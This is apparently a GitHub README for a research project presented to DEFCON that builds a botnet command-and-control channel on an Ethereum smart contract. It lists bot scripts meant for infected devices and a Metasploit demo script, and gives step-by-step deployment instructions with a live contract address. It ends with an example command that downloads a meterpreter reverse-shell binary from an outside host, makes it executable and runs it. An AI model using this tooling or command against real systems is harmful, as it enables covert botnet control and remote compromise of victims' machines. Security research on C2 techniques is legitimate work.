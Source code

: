 # DAPPin that A$$ | A Blockchain Enabled C2 Solution


A C2 solution that lives in the blockchain as a DAPP.

Core Contents:
* [SpectralCommandRelay.sol](./contracts/SpectralCommandRelay.sol): Smart Contract that can be deployed to the blockchain to act as a C2 channel
* [bot_deployer.py](./bots/bot_deployer.py): Script that generates & manages a local botnet
* [bot_minimal.py](./bots/bot_minimal.py): An incredibly simple endpoint for our C2 blockchain solution to be run on infected devices
* [bot_template.py](./bots/bot_template.py): Template for a more advanced endpoint for our C2 blockchain solution to be run on infected devices

Demo Contents:
* [SCR_Demo_Meter.rc](./demo/SCR_Demo_Meter.rc): MSFConsole init script used in our local botnet demo
* [cleanup.sh](./demo/cleanup.sh): Script to cleanup any lingering meterpreter sessions after our demo

Presentation Contents:
* [DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx](./demo/DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx): The powerpoint we sent to the DEFCON Talks Panel



# How to Play

* Get setup with a web3 wallet, the [Metamask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn) chrome plugin is pretty quick and straight forward
* Grab [SpectralCommandRelay.sol](./contracts/SpectralCommandRelay.sol) and paste it into [https://remix.ethereum.org/](https://remix.ethereum.org/).
* Compile our .sol script
* Switch your web3 provider to "Injected Web3" and set your network to the "Rinkeby" testchain.
* Either deploy an instance of the relay or "Load at address" 0x69429FB223b3BA3D5823B980E590bF857a680c13
* Grab some [scratch on rinkeby](https://faucet.rinkeby.io/) and start sending commands

An Example command that installs and runs a meterpreter shell on an infected device which is running our [bot_minimal.py](./bots/bot_minimal.py) script
```
0~wget https://github.com/Cooperw/meterpreter_executables/raw/main/linux_x64_meterpreter_reverse_tcp_local_4444.elf; chmod +x linux_x64_meterpreter_reverse_tcp_local_4444.elf; ./linux_x64_meterpreter_reverse_tcp_local_4444.elf
```
